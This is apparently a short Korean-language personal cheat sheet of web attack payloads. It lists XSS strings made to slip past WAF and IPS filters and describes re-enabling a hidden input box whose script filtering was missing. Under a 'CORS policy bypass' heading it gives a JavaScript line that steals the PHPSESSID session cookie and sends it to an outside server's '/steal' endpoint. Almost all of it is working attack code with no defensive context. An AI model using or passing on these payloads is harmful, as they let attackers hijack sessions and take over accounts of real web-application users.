 #xss 페이로드
"><svg/onwheel=alert'1'> // =onload 등 흔한 이벤트가 WAF, IPS에 필터링 되어 있을 때 우회

aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" // 태그 탈출 후 img ,iframe등이 필터링되어 있을 때 우회

<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 스크립트 필터링 누락으로 xss 공격 가능
(실제 우회 당시 게시판 내 링크 삽입 시 입력되는 창이 활성화되었음)

#CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

